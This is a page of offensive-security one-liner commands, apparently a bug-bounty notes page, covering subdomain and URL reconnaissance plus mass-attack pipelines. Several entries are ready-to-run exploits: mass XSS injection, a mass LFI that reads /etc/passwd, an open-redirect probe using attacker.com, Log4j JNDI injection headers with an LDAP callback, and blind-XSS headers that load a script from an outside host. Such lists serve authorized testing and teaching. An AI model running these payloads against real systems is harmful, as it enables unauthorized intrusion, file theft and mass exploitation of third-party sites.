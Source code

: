 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


### Mass XSS via wayback machine
+ ``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+ ``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


### Mass IPs listing Via Shodan
+ ```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


### Subdomain from crt.sh
+ ```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

### wordpress mysql 
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

### Get all urls from sitemap
+ ``curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'``

### Waybackurls Validators
+ ``waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort``

### Extract all endpoints from js file
+ ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner  http://rapiddns.io Curl for Doamin Recon :
+ ``curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3  | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u``

### Check Mass CNAME records
+ ``cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME``

### Mass LFI
+ ``cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'``

### Open Redirect
+ ``export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'``

### Find JavaScript Files
+ ``assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done``

### Get Subdomain from https://riddler.io
+ ``curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain domain from web archive
+ ``curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
``
### Get subdomain from certspotter
+ ``curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain from securitytrails
+ ``curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u``

### Scan juicy ports only
+ ``nmap -sV -p 21,22,80,25,465,587,1617,3000,4848,5985,8022,8080,8282,8484,\ 8585,9200,49153,49154,49202,49203 -v target.com``

### Dependency Confusion check NPM rsgistry
+ ``cat package.json | jq -r '.dependencies + .devDependencies' | cut -d : -f 1 | tr -d '"|}|{' | sort -u | tr -s "     " | sort -u | xargs -n1 -I{} echo "https://registry.npmjs.org/{}" | grep -v "@" | httpx -status-code -silent -content-length -mc 404``

### Heartbleed vulnerability
+ `` cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done ``

### Log4j via httpx 
+ `` cat targets.txt | httpx -H "X-Api-Version: \${jndi:ldap://<ip><port>}" -H "User-Agent: \${jndi:ldap://<ip><port>}" -H "Referer: \${jndi:ldap://<ip><port>}"``

### mass blind xss
+ ``cat targets.txt| httpx -H "User-Agent: \"<script src=https://js.rip/0xmaruf></script>" -H "Host: \"<script src=https://js.rip/0xmaruf></script>" -H "Referer: \"<script src=https://js.rip/0xmaruf></script>" -H "Origin: \"<script src=https://js.rip/0xmaruf></script>"
``
